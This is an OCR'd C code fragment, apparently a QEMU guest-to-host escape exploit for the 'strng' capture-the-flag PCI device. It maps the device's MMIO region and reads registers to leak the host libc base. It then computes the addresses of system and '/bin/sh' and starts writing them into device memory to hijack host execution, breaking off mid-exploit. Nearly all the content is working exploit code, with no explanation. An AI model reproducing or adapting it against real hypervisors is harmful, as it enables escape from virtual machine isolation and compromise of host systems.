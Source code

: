 ```c

void mmio_write(uint32_t addr,uint32_t value)
{
    *((uint32_t *)(mmio_mem+addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem+addr));
}

void pmio_write(uint32_t addr,uint32_t value)
{
    outl(value,addr);
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)(inl(addr));
}

uint32_t pmio_abread(uint32_t offset)
{
    //return the value of (addr >> 2)
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset,uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main()
{
// Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    mmio_write(0, 0x11);
    uint64_t libc_base = mmio_read(4);
    mmio_write(0, 0x12);
    libc_base |= ((uint64_t)mmio_read(4)) << 32;
    libc_base -= 0x65140;

    printf("libc_base = 0x%lx\n", libc_base);

    uint64_t system = libc_base + 0x403860;
    uint64_t binsh = libc_base + 0x1b3d88;

    printf("system = 0x%lx\n", system);
    printf("binsh = 0x%lx\n", binsh);

    mmio_write(4, system >> 32);
    mmio_write(0, 0x11);
```